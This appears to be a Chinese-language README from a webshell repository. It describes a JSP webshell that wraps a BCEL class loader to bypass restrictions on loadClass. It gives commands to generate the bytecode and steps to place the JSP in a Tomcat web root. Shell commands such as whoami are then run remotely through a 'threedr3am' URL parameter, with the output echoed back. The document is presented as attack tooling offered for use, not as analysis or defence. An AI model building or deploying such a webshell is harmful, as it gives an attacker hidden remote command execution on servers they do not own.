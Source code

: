 ### BCEL类加载器进行一定包装-可能在某些禁了loadClass方法的地方bypass的JSP Webshell

生成BCEL字节码：
```
javac Threedr3am_15.class Threedr3am_make.class
java Threedr3am_make
```

使用：
```
1.把jsp文件放到能被解析的服务器目录，例：tomcat的webapps/ROOT

2.在浏览器访问1.jsp，并使用参数threedr3am传入需要远程执行的命令，例：http://127.0.0.1:8080/1.jsp?threedr3am=whoami

3.服务器将会执行相应的shell命令，最后回显
```